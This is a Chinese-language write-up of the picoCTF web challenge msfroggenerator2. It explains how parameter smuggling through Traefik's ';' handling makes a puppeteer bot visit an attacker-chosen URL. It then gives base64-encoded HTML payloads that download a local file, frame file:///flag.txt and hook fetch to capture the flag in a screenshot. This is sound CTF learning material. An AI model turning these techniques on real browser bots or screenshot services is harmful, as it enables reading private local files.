



# picoCTF msfroggenerator2复现

复现戳👉https://play.picoctf.org/practice

## Quick Glance

`docker-compose.yml`下发现有四个服务

```yaml
services:
  api:
    container_name: api
    build: ./api
    init: true
    volumes:
      - ./flag.txt:/flag.txt
  bot:
    container_name: bot
    build: ./bot
    init: true
    volumes:
      - ./flag.txt:/flag.txt
  traefik:
    image: traefik:2.9
    container_name: traefik
    volumes:
      - ./traefik/traefik.yml:/etc/traefik/traefik.yml:ro
      - ./traefik/web.yml:/etc/traefik/web.yml:ro
  openresty:
    container_name: openresty
    image: openresty/openresty:1.21.4.1-0-alpine
    ports:
      - 8080:8080
    volumes:
      - ./openresty/web.conf:/etc/nginx/conf.d/web.conf:ro
      - ./openresty/static:/var/www:ro
```

* `api`：维护了一个`designs`的Map（design保存前端画布信息）和`reports`数组，有四个接口
  * `/api/get?id=`：根据id获取对应的design
  * `/api/create`：创建一个design
  * `/api/reports/get`：获取所有reports
  * `/api/reports/add`：添加截图到reports内，需要带上`Authorization: Bearer flag`才能访问头字段，也就是得知道flag才能添加截图
* `bot`：`puppeteer`构建的`bot`
* `traefik`：反向代理，用于访问`api`和`bot`
* `openresty`：配置静态资源和转发请求给`traefik`

看下`openresty`的`web.conf`配置

```
server {
    listen 8080;
    resolver local=on;
    location / {     # 静态资源访问
        add_header Content-Security-Policy "default-src 'none'; script-src 'self'; style-src 'self'; img-src https://cdn.jsdelivr.net/gh/Crusaders-of-Rust/corCTF-2022-public-challenge-archive@master/web/msfroggenerator/task/img/; connect-src 'self'" always;
        root /var/www;
    }
    location /api/ { 
        proxy_set_header Host api;
        proxy_pass "http://traefik:8080";
    }
    location = /report {
        proxy_set_header Host bot;
        set_by_lua $url 'return "http://openresty:8080/?id=" .. ngx.var.arg_id';
        proxy_pass "http://traefik:8080/?url=$url";
    }
}
```

对于`/api/`、`/report`两个接口，`proxy_set_header`设置了host，接着`proxy_pass`转发给了`traefik`处理，`traefik`会根据host转发给`api`或`bot`

关注点在`set_by_lua $url 'return "http://openresty:8080/?id=" .. ngx.var.arg_id';`

`ngx.var.arg_id`提取URL参数id，拼接到`$url`，这个url就是要让bot去访问的

## URL Param Trick

```js
// bot/web.js
import { createServer } from 'http';
import { spawn } from 'child_process';

let running = false;

createServer((req, res) => {
    const { url } = Object.fromEntries(new URL(`http://${req.headers.host}${req.url}`).searchParams);
    res.writeHead(200);
    if (!url) return res.end('Invalid request');
    if (running) return res.end('Already running!');
    (async () => {
        running = true;
        console.log('Starting...');
        const proc = spawn('node', ['bot.js', url], {
            stdio: ['inherit', 'inherit', 'inherit']
        });
        await new Promise(resolve => proc.on('exit', resolve));
        console.log('Exited');
        running = false;
    })();
    res.end('Sent!');
}).listen(8080);
```

这里有个可疑点，代码是用`Object.fromEntries`来获取参数的，而不是`searchParams.get()`

下面演示了两者的区别，即`Object.fromEntries`会选择最后一个参数



这样我们就能构造任意的url让bot去访问，构造`/report?id=1&url=arbitrary`

但是`ngx.var.arg_id`获取的是请求参数id，上面的构造nginx会把url=arbitrary当成另外一个请求参数url

把`&`URL编码呢？也不行。因为`ngx.var.arg_xx` 在获取xx参数时不会对其值进行`urldecode`解码

`Traefik`的`issue`中可以找到一条

[Traefik >= 2.7.2 changes ";" to "&" in URL request string · Issue #9164](https://github.com/traefik/traefik/issues/9164)

所以构造`/report?id=1;url=arbitrary`

## Front End Exploit

接着看bot是怎么访问我们传入的任意URL

```js
// /bot/bot.js
import puppeteer from 'puppeteer';
import { readFile } from 'fs/promises'

const sleep = time => new Promise(resolve => setTimeout(resolve, time));
const flag = await readFile('/flag.txt', 'utf-8');

const browser = await puppeteer.launch({
    headless: false,
    pipe: true,
    dumpio: true,
    args: [
        '--incognito',
        '--js-flags=--jitless',
        '--no-sandbox'
    ],
    defaultViewport: {
        width: 1280,
        height: 720
    }
});

const visit = async () => {
    const page = await browser.newPage();
    const [url] = process.argv.slice(2);
    await page.goto('http://openresty:8080/');
    await page.evaluate(flag => {
        localStorage.setItem('flag', flag);
    }, flag);

    await page.goto(url);
    await sleep(5000);
    const screenshot = await page.screenshot({
        type: 'png',
        encoding: 'base64'
    });

    await page.evaluate(async screenshot => {
        await fetch('/api/reports/add', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
                'Authorization': `Bearer ${localStorage.getItem('flag')}`
            },
            body: JSON.stringify({ screenshot })
        });
    }, screenshot);
}

try { await Promise.race([ visit(), sleep(10000) ]); } catch(e) { console.log(e) };
await browser.close();
```

首先访问`http://openresty:8080/`，将flag存入`localStorage`，接着访问我们的url，等待5s后截图发给`reports/add`接口，这个接口是需要带上`Authorization: Bearer flag`才能访问。

比赛的时候一直想着可能是XSS，一直在网上找`Konva`可能的利用点，还得绕CSP🤬

而且`api`接口对上传数据的类型进行严格的限制，感觉也不好利用。

`localStorage`也是遵循同源策略的，就算能成功控制页面，在CSP的限制下要读取`localStorage`实在太难了。

或许题目用意不是想让我们去读取`localStorage`

实际上我们既然能控制浏览器访问任意URL，就不必局限于http协议，完全可以指定其他`Scheme`，比如`file:///flag.txt`直接去读取flag，但是由于跨域问题（file协议的origin默认为null），去`/reports/add`提交截图需要从`localStorage`拿取flag，此时跨域拿不了flag就提交不了截图了，也就无法回显到我们这边。

那么我们能不能在自己的服务器上放一个页面，让bot去请求我们的页面，页面使用file协议读取flag，再返回给服务器呢？显然不行，不然任何网站都能读取我们主机上的文件了😱

外部不能用`file`协议读取文件，但本地html是可以通过`file`协议读取文件的

可以利用`data`协议往本地保存html文件，再通过这个html文件使用`file`协议读取flag

（data不能访问file，但file能访问file）

浏览器下载的文件默认在当前用户的下载文件夹下，在Linux上就是`/root/Downloads/`

但是这个文件名我们无法控制，好像是随机生成的（搭环境快吐了，一直报错，下载下来是文件名是`Unconfirmed xxx`，Linux上验证不了😭）

```html
<body></body>
<script>let blob = new Blob([atob("PGlmcmFtZSBzcmM9ImZpbGU6Ly8vZmxhZy50eHQiPjwvaWZyYW1lPgo8c2NyaXB0PgogICAgc2V0VGltZW91dCgoKSA9PiB7CiAgICAgICAgbGV0IHQgPSA1MDAwICsgKE1hdGgucmFuZG9tKCkgKiAyIC0gMSkgKiAxMDAKICAgICAgICBzZXRUaW1lb3V0KCgpID0+IHsKICAgICAgICAgICAgZG9jdW1lbnQubG9jYXRpb24uaHJlZiA9ICJodHRwOi8vb3BlbnJlc3R5OjgwODAvIgogICAgICAgIH0sIHQpCiAgICB9KQo8L3NjcmlwdD4=")], {type: 'text/html'});
let a = document.createElement("a");
a.download = "flagger.html";
a.href = URL.createObjectURL(blob);
document.body.appendChild(a);
a.dispatchEvent(new MouseEvent('click', {bubbles: true, cancelable: true}));</script>
```

atob的内容是下面html经过base64编码的，将上面这个html保存在我们的服务器上

利用Blob对象存储我们要保存的html文件，再通过触发点击事件保存文件，可以指定文件名

```html
<iframe src="file:///flag.txt"></iframe>
<script>
    setTimeout(() => {
        let t = 5000 + (Math.random() * 2 - 1) * 100
        setTimeout(() => {
            document.location.href = "http://openresty:8080/"
        }, t)
    })
</script>
```

`iframe`展示flag的内容，`setTimeout`负责卡时间点，定时跳转，因为此时我们还是通过file访问，存在跨域问题，要提交截图还得跳转回`http://openresty:8080/`，就是想刚好卡在截图到flag，在提交截图前跳转回去，有点条件竞争的味道。

1. `/report?id=;url=上面的blob点击操作`
   【可不可以把下载文件操作的html放在我们自己的服务器上？`/report?id=;url=http://ip:port/test.html`（好吧，试过了服务器好像不出网）】
2. `/report?id=;url=file:///root/Downloads/flagger.html`

=============================分割线===============================

咳咳，上面的思路是挺骚的，反正我复现半天是打不出来👊

实际上通过data协议已经能让服务端浏览器执行我们的js代码了

网上搜了一下，由于安全性原因，FileReader读取的是由input传入的文件或者是由ajax读取服务端返回的文件，不可以是指定路径的文件的读取。不能出网，就算有办法读出来也传不出来的🤡

看来只能通过截图来获取flag了。

上面的思路之所以很难打出来，是因为时间不好卡（下载的文件名我也不好确定会不会出现`Unconfirmed xxx`），能不能在执行`page.evaluate`时hook住，先让页面跳转到首页呢？

Javascript中的函数可以直接被覆盖，这是最简单的Hook方法

```html
<iframe src="file:///flag.txt"></iframe>
<script>
    window.a = window.fetch;
    window.fetch = function(s, t){
        setTimeout(() => {}, 5000);
        window.a(s, t);
    }
</script>
```

还有一个问题，跳转过去原页面的js能执行完吗？可以试一试

在百度页面的控制台输入下面代码

`window.location.href="https://www.taobao.com";alert('success');`

可以看到跳转的那一瞬间弹窗了又自动自动关掉了。

> base64得到：
>
> PGlmcmFtZSBzcmM9ImZpbGU6Ly8vZmxhZy50eHQiPjwvaWZyYW1lPgo8c2NyaXB0PgogICAgd2luZG93LmEgPSB3aW5kb3cuZmV0Y2g7CiAgICB3aW5kb3cuZmV0Y2ggPSBmdW5jdGlvbihzLCB0KXsKICAgICAgICBzZXRUaW1lb3V0KCgpID0+IHt9LCA1MDAwKTsKICAgICAgICB3aW5kb3cuYShzLCB0KTsKICAgIH0KPC9zY3JpcHQ+

```html
<body></body>
<script>let blob = new Blob([atob("PGlmcmFtZSBzcmM9ImZpbGU6Ly8vZmxhZy50eHQiPjwvaWZyYW1lPgo8c2NyaXB0PgogICAgd2luZG93LmEgPSB3aW5kb3cuZmV0Y2g7CiAgICB3aW5kb3cuZmV0Y2ggPSBmdW5jdGlvbihzLCB0KXsKICAgICAgICBzZXRUaW1lb3V0KCgpID0+IHt9LCA1MDAwKTsKICAgICAgICB3aW5kb3cuYShzLCB0KTsKICAgIH0KPC9zY3JpcHQ+")], {type: 'text/html'});
let a = document.createElement("a");
a.download = "flagger.html";
a.href = URL.createObjectURL(blob);
document.body.appendChild(a);
a.dispatchEvent(new MouseEvent('click', {bubbles: true, cancelable: true}));</script>
```

## Blob协议

在某些网页的视频或图片标签的src属性，可能会出现这样的格式`src="blob:https://xxx/zzz"`

比如现在打开b站随便一个视频，定位到video标签



Blob是浏览器的一个伪协议，只能由浏览器在内部生成

`URL.createObjectURL()`用于创建一个对Blob或File对象的引用，通过这个URL浏览器可以解析Blob对象中的数据

在浏览器控制台执行下面代码，可以得到Blob生成的URL

```js
var data = URL.createObjectURL(new Blob(["Hello blob "], {type: "text/plain"}))
console.log("URL:",data)
```



导航栏`blob:https://www.baidu.com/9e7d2cd8-91ca-4af4-b827-6891f1541577`回车就能看到`Hello blob `的文本信息，有效期为页面的存活期，或者通过调用`URL.revokeObjectURL(data);`释放对Blob引用，再次访问之前生成的URL就访问不了了。

一般网页先通过ajax去请求视频或图片的二进制数据，将其封装为Blob对象，再转为URL引用并赋值给视频图片标签的src属性。

有点类似`data:`协议来显示数据。如上传图片时，一般读取图片二进制数据后经过base64编码，使用`data:image/png;base64,pic_after_base64`来显示图片

至于为什么使用这个协议，可能就是为了反爬吧。。。

# Reference

* [rorical-blog/picoCTF 2023 msfroggenerator2 writeup.md (github.com)](https://github.com/Rorical/rorical-blog/blob/77d561922406db994a4eb4c12883e527ac7683e2/source/_posts/picoCTF 2023 msfroggenerator2 writeup.md)

* [什么是blob协议 - 掘金 (juejin.cn)](https://juejin.cn/post/7175737242877427768)

* [浅谈Javascript中的Hook技术 - 腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1639578)